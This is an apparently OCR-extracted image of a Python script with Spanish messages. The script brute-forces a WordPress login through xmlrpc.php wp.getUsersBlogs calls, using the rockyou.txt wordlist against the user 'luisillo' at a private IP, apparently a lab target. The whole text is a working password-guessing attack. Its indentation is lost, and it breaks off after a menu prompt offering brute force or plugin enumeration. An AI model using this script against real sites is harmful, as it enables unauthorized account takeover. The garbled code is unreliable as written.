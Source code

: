 ````python
def bruteforce():

url = 'http://172.17.0.2/wordpress/xmlrpc.php'

usuario = 'luisillo'

contraseña = 'rockyou.txt'

  

with open(contraseña, 'r', encoding='latin-1') as diccionario:

passwords = diccionario.readlines()

  

for password in passwords:

password = password.strip()

  

payload = f"""

<?xml version="1.0" encoding="UTF-8"?>

<methodCall>

<methodName>wp.getUsersBlogs</methodName>

<params>

<param><value>{usuario}</value></param>

<param><value>{password}</value></param>

</params>

</methodCall>"""

  

print(f"Probamos con la contraseña {password}")

  

respuesta = requests.post(url, data=payload)

  

if 'incorrectos.' not in respuesta.text:

print(f"La contraseña del usuario {usuario} es {password}")

exit(0)

  

choice = input("Introduce 1 para hacer fuerza bruta o 2 para enumerar plugins ")

  

if choice == '1':
````